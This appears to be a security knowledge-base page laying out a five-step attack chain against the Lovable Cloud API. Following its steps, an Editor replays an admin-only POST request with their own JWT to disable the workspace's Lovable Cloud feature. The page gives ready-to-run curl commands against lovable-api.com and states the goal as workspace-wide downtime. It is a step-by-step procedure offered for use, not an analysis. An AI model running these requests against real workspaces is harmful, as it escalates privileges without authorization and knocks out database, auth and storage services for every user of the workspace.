

# Editor Privilege Escalation via Broken Access Control in Lovable Cloud API

Multi-stage attack chain demonstrating a complete attack workflow for exploiting improper authorization in the Lovable Cloud API to allow Editors to perform admin-only actions, such as disabling the Lovable Cloud feature and causing workspace-wide downtime.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools or proxy like Burp Suite for request interception

### Target Environment

- Lovable Cloud API (REST API with JWT authentication)
- Workspace with Admin/Owner and Editor roles
- Services: Supabase backend (database, auth, storage, serverless functions)

### Initial Access Requirements

- Valid Admin/Owner JWT token
- Valid Editor JWT token
- Workspace ID for the target workspace
- Network access to lovable-api.com

## Detailed Attack Procedures

### Step 1: Perform Admin Toggle to Capture Request
procedure: [[procedures/Exploit-Improper-Authorization-in-Lovable-API]]

**Objective**: Trigger the admin-only action to disable Lovable Cloud and capture the underlying API request for later modification.

**Instructions**: Sign in as an Admin/Owner account and use the web interface to toggle the Lovable Cloud feature off in the target workspace. Intercept the request using browser tools or a proxy.

**Expected Output**: API request captured showing the POST to /workspaces/<WORKSPACE_ID>/tool-preferences/supabase/enable with Admin JWT.

**Success Indicators**:
- Feature toggled off successfully in UI
- Request intercepted with payload {"approval_preference":"disable"}

### Step 2: Capture the API Endpoint Request
procedure: [[procedures/Exploit-Improper-Authorization-in-Lovable-API]]

**Objective**: Isolate the exact API call responsible for disabling the feature.

**Instructions**: From the intercepted traffic, identify and save the POST request details, including headers and payload.

Use [[commands/disable-lovable-cloud-admin]] as reference:

```bash
curl -X POST "https://lovable-api.com/workspaces/<WORKSPACE_ID>/tool-preferences/supabase/enable" \
  -H "Authorization: Bearer <OWNER-JWT>" \
  -H "Content-Type: application/json" \
  -d '{"approval_preference":"disable"}'
```

**Expected Output**: Raw HTTP request logged for modification.

**Success Indicators**:
- Endpoint confirmed: POST /workspaces/<WORKSPACE_ID>/tool-preferences/supabase/enable
- Host: lovable-api.com

### Step 3: Modify Request with Editor JWT
procedure: [[procedures/Exploit-Improper-Authorization-in-Lovable-API]]

**Objective**: Alter the authorization header to use an Editor's JWT, exploiting the lack of server-side role checks.

**Instructions**: Replace the Authorization header from the Admin JWT to the Editor JWT, keeping all other elements intact.

Reference the modified command [[commands/disable-lovable-cloud-editor]]:

```bash
curl -X POST "https://lovable-api.com/workspaces/<WORKSPACE_ID>/tool-preferences/supabase/enable" \
  -H "Authorization: Bearer <EDITOR_JWT>" \
  -H "Content-Type: application/json" \
  -d '{"approval_preference":"disable"}'
```

**Expected Output**: Modified request ready for replay.

**Success Indicators**:
- JWT token swapped successfully
- Payload and endpoint unchanged

### Step 4: Replay Modified Request
procedure: [[procedures/Exploit-Improper-Authorization-in-Lovable-API]]

**Objective**: Send the tampered request to bypass authorization and disable the feature as an Editor.

**Instructions**: Execute the modified request using a tool like curl or a proxy repeater.

Execute [[commands/disable-lovable-cloud-editor]]:

```bash
curl -X POST "https://lovable-api.com/workspaces/<WORKSPACE_ID>/tool-preferences/supabase/enable" \
  -H "Authorization: Bearer <EDITOR_JWT>" \
  -H "Content-Type: application/json" \
  -d '{"approval_preference":"disable"}'
```

**Expected Output**: HTTP 200 success response from API.

**Success Indicators**:
- Request succeeds without role enforcement error
- No authentication failure

### Step 5: Verify Escalation and Impact
procedure: [[procedures/Exploit-Improper-Authorization-in-Lovable-API]]

**Objective**: Confirm the privilege escalation by checking that the feature is disabled workspace-wide.

**Instructions**: Refresh the workspace UI or query the API to verify the Lovable Cloud setting is off, affecting all users and projects.

**Expected Output**: Workspace features broken (e.g., database, auth, storage downtime).

**Success Indicators**:
- Setting changed without admin privileges
- Potential business impact: downtime for all workspace users

## Attack Chain Summary

### Key Achievements

1. Captured and modified admin API request to bypass role checks
2. Achieved vertical privilege escalation from Editor to admin-equivalent actions
3. Disabled critical workspace feature, leading to broad disruption

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploitation for Privilege Escalation]] Exploitation for Privilege Escalation
- [[Valid Accounts]] Valid Accounts

### MITRE ATT&CK Tactics

- [[Privilege Escalation]] Privilege Escalation

---

*Last updated: 2023-10-01T00:00:00Z*
